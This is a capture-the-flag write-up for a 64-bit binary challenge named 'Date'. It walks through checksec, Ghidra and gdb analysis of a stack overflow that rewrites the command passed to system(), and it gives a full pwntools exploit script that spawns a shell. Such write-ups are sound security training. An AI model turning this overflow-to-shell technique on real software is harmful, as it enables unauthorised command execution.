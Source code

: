 
# Date

```
Description
What's the date?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So all protections are enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see there are values stored on the stack in variables and our input starts at `local_d8` pointing to a variable. We can input 0x80 charachters into fgets. We can also see that system is called with the address at `local_98`. Thats pointing to `/usr/bin/date`. So we can overflow it and change it to `/bin/bash`, We cant overflow till the return pointer because of the canary. 

So lets open it in gdb, we set a breakpoint at system and create a pattern of 0x80 chars:

![img](images/gdb.jpg)

It stops at our breakpoint and we can see we overflowed the value thats put into rdi for the system call:

![img](images/gdb1.jpg)

We will find the offset, its 64:

![img](images/gdb2.jpg)

Lets create a pattern of 64 chars and put 8 B after it to see if we are good:

![img](images/gdb3.jpg)

And we are, so lets create our exploit script:

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

offset = 64

payload = b'A' * 64
payload += b'/bin/sh\x00'

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()

```

Lets run it:

![img](images/flag.jpg)

We got our flag!
